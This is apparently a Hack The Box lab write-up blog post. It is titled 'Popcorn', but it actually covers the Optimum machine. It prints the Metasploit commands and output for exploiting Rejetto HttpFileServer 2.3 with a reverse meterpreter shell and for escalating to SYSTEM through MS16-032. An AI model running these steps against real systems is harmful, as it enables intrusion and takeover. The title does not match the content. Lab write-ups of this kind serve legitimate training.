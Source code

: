 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.8
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.8

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 15:14 EST
<br>Nmap scan report for 10.10.10.8
<br>Host is up (0.15s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">HttpFileServer httpd 2.3</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone
<br>Running (JUST GUESSING): Microsoft Windows 2012|7|Phone|2008|8.1|Vista (91%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
<br>Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 29.52 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>**Web**:-
![web](https://teckk2.github.io/assets/images/Optimum/1-Optimum.png)
<br>The target machine is running HttpFileserver 2.3 for which there is a public exploit available.
<br>**Exploit**:- [Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)
<br>**Vulnerabilty Description:-**:- Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/http/rejetto_hfs_exec
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set RHOST 10.10.10.8
<br>RHOST => 10.10.10.8
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set payload windows/x64\reterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Using URL: http://0.0.0.0:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Local IP: http://192.168.140.136:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Server started.
<br><font color="RoyalBlue">[*]</font> Sending a malicious request to /
<br><font color="RoyalBlue">[*]</font> Payload request received: /aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.8
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.8:49162) at 2017-12-19 16:18:59 -0500
<br><font color="ffff00">[!]</font> Tried to delete %TEMP%\mbSzL.vbs, unknown result
<br><font color="RoyalBlue">[*]</font> Server stopped.</p>

<p>meterpreter > getuid
<br>Server username: <font color="53E100">OPTIMUM\kostas</font>
<br>meterpreter > sysinfo
<br>Computer        : OPTIMUM
<br>OS              : Windows 2012 R2 (Build 9600).
<br>Architecture    : x64
<br>System Language : el_GR
<br>Domain          : HTB
<br>Logged On Users : 1
<br>Meterpreter     : x64/windows
<br>meterpreter ></p> 

</div>
</font>
<br>Now we have the user _Kostas_ access, the target machine is running windows 2012 x64 so we can try MS16-032 exploit.
<br>[MS16-032 Secondary Logon Handle Privilege Escalation](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc)
<br>**Exploit Description:-**:- This module exploits the lack of sanitization of standard handles in Windows' Secondary Logon Service. The vulnerability is known to affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This module will only work against those versions of Windows with Powershell 2.0 or later and systems with two or more CPU cores.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background
<br><font color="RoyalBlue">[*]</font> Backgrounding session 1...
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set SESSION 1
<br>SESSION => 1
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set TARGET 1
<br>TARGET => 1
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > exploit</p> 

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Writing payload file, C:\Users\kostas\Desktop\xHWLMuJ.txt...
<br><font color="RoyalBlue">[*]</font> Compressing script contents...
<br><font color="53E100">[+]</font> Compressed size: 3584
<br><font color="RoyalBlue">[*]</font> Executing exploit script...
<br><font color="RoyalBlue">[*]</font> Command shell session 2 opened (10.10.*.*:4444 -> 10.10.10.8:49164) at 2017-12-19 16:53:33 -0500</p>


<p>^C[-] Error while running command exploit: 
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -l</p>

<p>Active sessions
<br>===============</p>

<p>  Id  Type                     Information               Connection
<br>  --  ----                     -----------               ----------
<br>  1   meterpreter x64/windows  OPTIMUM\kostas @ OPTIMUM  10.10.*.*:4455 -> 10.10.10.8:49162 (10.10.10.8)
<br>  2   shell x64/windows                                  10.10.*.*:4444 -> 10.10.10.8:49164 (10.10.10.8)</p>

<p>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -i 2
<br>[*] Starting interaction with 2...</p>

<p>Microsoft Windows [Version 6.3.9600]
<br>(c) 2013 Microsoft Corporation. All rights reserved.</p>

<p>C:\Users\kostas\Desktop>whoami
<br>whoami
<br>nt authority\system
<br>C:\Users\kostas\Desktop>type user.txt.txt
<br>type user.txt.txt
<br><font color="53E100">****************************</font>
<br>C:\Users\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">****************************</font>
<br>C:\Users\Administrator\Desktop></p>
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
